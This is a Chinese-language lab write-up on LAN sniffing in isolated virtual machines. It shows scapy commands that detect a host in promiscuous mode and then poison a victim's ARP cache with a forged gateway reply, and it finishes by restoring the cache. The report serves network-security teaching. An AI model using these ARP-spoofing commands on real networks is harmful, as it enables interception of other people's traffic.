

# 网络监听

## 实验目的
进行网络监听

## 实验过程
 
### 网络设置

各主机的网络配置

- `kali-victim`


- `kali-attacker`


- `debian-gateway`


|主机|||
| ---- | ---- | ----|
|kali-victim|[172.16.111.117] |[08:00:27:45:5f:bf]|
kali-attacker|[172.16.111.115] |[08:00:27:87:ce:01]|
debian-gateway|[172.16.111.1] |[08:00:27:41:27:6a]|


### 攻击者主机安装`scapy`

安装 python3
```
sudo apt update && sudo apt install python3 python3-pip
```

ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
```
pip3 install scapy[complete]
```


### 实验一：检测局域网中的异常终端

先在受害者主机上检查网卡的【混杂模式】是否启用，此时结果里应该没有出现` PROMISC` 字符

命令：
```
ip link show eth0
```


然后在攻击者主机上开启`scapy`：
```
sudo scapy
```
并且在scapy的交互式终端输入以下命令：
```
pkt = promiscping("172.16.111.117")
```


接着回到受害者主机开启网卡的【混杂模式】,再次查看

同时打开受害者主机的`wireshark`选择`eth0`端口进行抓包

```
sudo ip link set eth0 promisc on

ip link show eth0
```


再回到攻击者主机执行命令：
```
pkt = promiscping("172.16.111.117")
```


在混杂模式下，受害者主机收到了数据包。

查看受害者主机的`wireshark`


可以看到收到了`promiscping`命令发送的数据包

在关闭网卡的【混杂模式】的情况下，则无法成功发送

### 实验二：手工单步“毒化”目标主机APR缓存

首先查看当前局域网的网关MAC地址

构造一个APR请求，并查看一下具体内容，然后将这个APR发送

```
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

arpbroadcast.show()

recved = srp(arpbroadcast, timeout=2)

gw_mac = recved[0][0][1].hwsrc
```


接下来是发送给受害者主机

将APR响应的目的MAC地址设置为攻击者主机的MAC地址，把伪造的ARP响应数据发送给受害者主机

```
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:87:ce:01")

sendp(arpspoofed)
```


在受害者主机上查看会发现网关的MAC地址已被修改成攻击者主机的MAC地址

使用命令`ip neigh`查看


伪装网关给受害者发送ARP响应

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:41:27:6a", pdst="172.16.111.117", hwdst="08:00:27:45:5f:bf")

sendp(restorepkt1, count=100, inter=0.2)
```


接着在受害者主机上输入命令`ping 172.16.111.1`

让ARP刷新成功后退出`ping`

再次查看受害者主机的ARP缓存，可以看到恢复到正常情况


## 参考资料
[scapy中的ARP](http://www.noobyard.com/article/p-pxkbxnav-hr.html)


